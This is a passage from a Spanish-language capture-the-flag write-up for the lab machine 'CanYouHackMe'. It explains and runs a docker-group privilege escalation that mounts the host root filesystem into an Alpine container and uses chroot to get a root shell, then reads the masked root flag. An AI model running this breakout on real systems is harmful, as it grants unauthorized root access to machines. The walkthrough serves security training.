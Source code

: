Utilizaremos ese comando.

Vamos a desglosarlo:
* `-v /:/mnt`: monta todo el sistema raíz del host (`/`) en el contenedor, en la ruta `/mnt`.
* `--rm`: elimina el contenedor al salir.
* `-it alpine`: inicia un contenedor interactivo con **Alpine Linux**.
* `chroot /mnt sh`: cambia la raíz del entorno al sistema del host, dandonos acceso como **Root** al sistema montado.

En resumen, el comando crea un contenedor de toda la raíz, de manera que los cambios que hagamos, se vean reflejados fuera del contenedor (`-v /:/mnt`).

Para poder ejecutarlo, necesitamos la imagen de **Alpine**, que podemos revisar si existe dentro de la máquina con **docker**:
```bash
juan@TheHackersLabs-CanYouHackMe:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    91ef0af61f39   9 months ago   7.8MB
```
Ahí está.

Ahora, ejecutemos ese comando:
```bash
juan@TheHackersLabs-CanYouHackMe:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

Root flag: ********
root@4a0530af3600:/#
```
Excelente, parece que también nos dio la flag del **Root**.

Movámonos al directorio del **Root**:
```bash
root@4a0530af3600:/# cd root/
root@4a0530af3600:~# ls -la
total 40
drwx------  6 root root 4096 Sep  8  2024 .
drwxr-xr-x 21 root root  540 Jun 18 17:19 ..
-rw-------  1 root root  768 Jun 18 20:40 .bash_history
-rw-r--r--  1 root root 3157 Sep  7  2024 .bashrc
drwx------  2 root root 4096 Sep  7  2024 .cache
drwxr-xr-x  3 root root 4096 Sep  5  2024 .local
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
drwx------  2 root root 4096 Sep  5  2024 .ssh
-rw-------  1 root root  767 Sep  7  2024 .viminfo
-rw-r--r--  1 root root   33 Sep  8  2024 root.txt
drwx------  3 root root 4096 Sep  7  2024 snap
```
Ahí mismo encontramos la flag.

Y si revisamos el archivo `.bashrc`, veremos que igual está ahí y se obtendrá cada vez que el **Root** inicie sesión:
```bash
root@4a0530af3600:~# cat .bashrc | tail -n 2
#fi
echo "Root flag: *********"
```
